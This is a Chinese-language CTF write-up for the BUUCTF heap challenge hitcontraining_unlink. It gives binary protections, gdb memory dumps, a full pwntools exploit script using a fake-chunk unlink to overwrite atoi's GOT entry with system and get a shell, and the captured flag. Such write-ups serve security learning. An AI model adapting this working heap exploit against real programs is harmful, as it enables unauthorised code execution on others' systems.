 # hitcontraining_unlink

[题目地址](https://buuoj.cn/challenges#hitcontraining_unlink)

现在我要怀疑我是否智商有问题了，到现在还学不会真的是智商低于常人了。

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

打开main函数，感觉这题似曾相识，之前肯定见过。

```c
```

show_item没啥好看的，就是展示内容，经常用于泄露地址。

```c
```

add_item函数重点关注堆块的管理结构。

```c
```

看起来好像是有两个数组，一个放boxes地址一个itemlist放大小，不过实际调试一下就知道只有一个itemlist，如下：

```
There is a box with magic
what do you want to do in the box
----------------------------
Bamboobox Menu
----------------------------
1.show the items in the box
2.add a new item
3.change the item in the box
4.remove the item in the box
5.exit
----------------------------
Your choice:2
Please enter the length of item name:128
Please enter the name of item:aaaaaaaaaaaaaa

Breakpoint 1, 0x0000000000400b21 in add_item ()
(gdb) x/32g 0x6020c8-8
0x6020c0 <itemlist>:    0x0000000000000080      0x0000000001df42c0
0x6020d0 <itemlist+16>: 0x0000000000000000      0x0000000000000000
0x6020e0 <itemlist+32>: 0x0000000000000000      0x0000000000000000
0x6020f0 <itemlist+48>: 0x0000000000000000      0x0000000000000000
0x602100 <itemlist+64>: 0x0000000000000000      0x0000000000000000
0x602110 <itemlist+80>: 0x0000000000000000      0x0000000000000000
0x602120 <itemlist+96>: 0x0000000000000000      0x0000000000000000
```

全部堆块由itemlist管理，前8位存大小，后8位存堆块指针。change_item则老毛病了，任意堆溢出。

```c
```

remove非常正常，无uaf。

```c
```

还有个magic后门函数，就不看了，这题里因为buuctf的环境配置错误进而没用。如果有用的话可以直接fastbin attack让堆块分配到main函数里打招呼的函数指针那块，直接改为magic即可得flag。参考[wp](https://blog.csdn.net/mcmuyanga/article/details/113105091)，不过wp的另一个unlink解法才是我们要学的。

```python
from pwn import *
context.log_level = 'debug'
p = remote('node4.buuoj.cn',28786)

def add(size,content):
    p.sendlineafter('Your choice:','2')
    p.sendlineafter('name:',str(size))
    p.sendafter('item:',content)


def show():
    p.sendlineafter('Your choice:','1')


def edit(idx,size,content):
    p.sendlineafter('Your choice:','3')
    p.sendafter('item:',str(idx))
    p.sendlineafter('name:',str(size))
    p.sendafter('item:',content)


def delete(idx):
    p.sendlineafter('Your choice:','4')
    p.sendafter('item:',str(idx))
add(0x40,'a')
add(0x80,'b') #注意这个堆块申请时的size域是0x91,多出来的16是prev_size和dize，还剩个1是标记位，表示前一个堆块处于分配状态。
add(0x20,'c')
ptr=0x6020c8 #unlink攻击的ptr。这里就是itemlist中装第一个堆块的地址。一般都选第一个，选后面的没必要
fake_chunk=p64(0)+p64(0x41)+p64(ptr-0x18)+p64(ptr-0x10)+b'c'*0x20+p64(0x40)+p64(0x90) #标准fake_chunk payload。prev_size+size+fd+bk+fake_chunk的填充内容，任意即可+下一个堆块的prev_size+size。因为我们是在0号堆块内部构造的fake_chunk，所以size是0x41，p64(0)+p64(0x41)+p64(ptr-0x18)+p64(ptr-0x10)+b'c'*0x20这段fake_chunk大小刚好是0x40，都是对应上的。后面溢出的chunk1的prev_size也要对应着是0x40，不是0x41是因为我们想让程序把fake_chunk看为free状态，触发unlink向前合并
edit(0,len(fake_chunk),fake_chunk)
delete(1)
payload=p64(0)*2+p64(0x40)+p64(0x602068)
edit(0,len(payload),payload) #unlink后0x6020c8的地址处就是0x6020b0了，unlink的效果就是让*ptr=ptr-0x18。那么那个payload就是在编辑0x6020b0处，2个p64(0)填充，p64(0x40)是itemlist记录的大小，不要改动，p64(0x602068)将atoi got地址写入itemlist第一个指针
show() #此时show就能获得atoi的真实地址
p.recvuntil("0 : ")
atoi_addr=u64(p.recvuntil('\x7f').ljust(8,b'\x00'))
libc_base=atoi_addr-224896
system=libc_base+283536
edit(0,8,p64(system)) #编辑atoi的got表为system
p.sendline('/bin/sh')
p.interactive()
```

## Flag
> flag{1cf4d514-83e1-456d-b0da-e32c37edc3ed}